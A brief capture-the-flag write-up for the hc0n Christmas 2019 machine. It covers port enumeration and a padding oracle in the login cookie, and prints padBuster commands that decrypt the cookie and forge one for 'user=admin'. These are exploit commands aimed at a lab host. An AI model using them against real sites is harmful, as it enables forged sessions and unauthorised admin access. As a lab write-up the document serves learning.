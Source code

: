 # hc0n Christmas CTF - 2019

![](../../.gitbook/assets/41d0cdc8d99a8a3de2758ccbdf637a21.jpeg)

## Enumeration

I started **enumerating the machine using my tool** [**Legion**](https://github.com/carlospolop/legion):

![](../../.gitbook/assets/image%20%2821%29.png)

There are 2 ports open: 80 \(**HTTP**\) and 22 \(**SSH**\)

In the web page you can **register new users**, and I noticed that **the length of the cookie depends on the length of the username** indicated:

![](../../.gitbook/assets/image%20%28311%29.png)

![](../../.gitbook/assets/image%20%28318%29.png)

And if you change some **byte** of the **cookie** you get this error:

![](../../.gitbook/assets/image%20%28109%29.png)

With this information and[ **reading the padding oracle vulnerability**](../../crypto/padding-oracle-priv.md) I was able to exploit it:

```bash
perl ./padBuster.pl http://10.10.231.5/index.php "GVrfxWD0mmxRM0RPLht/oUpybgnBn/Oy" 8 -encoding 0 -cookies "hcon=GVrfxWD0mmxRM0RPLht/oUpybgnBn/Oy"
```

![](../../.gitbook/assets/image%20%2853%29.png)

![](../../.gitbook/assets/image%20%28173%29.png)

**Set user admin:**

```bash
perl ./padBuster.pl http://10.10.231.5/index.php "GVrfxWD0mmxRM0RPLht/oUpybgnBn/Oy" 8 -encoding 0 -cookies "hcon=GVrfxWD0mmxRM0RPLht/oUpybgnBn/Oy" -plaintext "user=admin"
```

![](../../.gitbook/assets/image%20%28271%29.png)



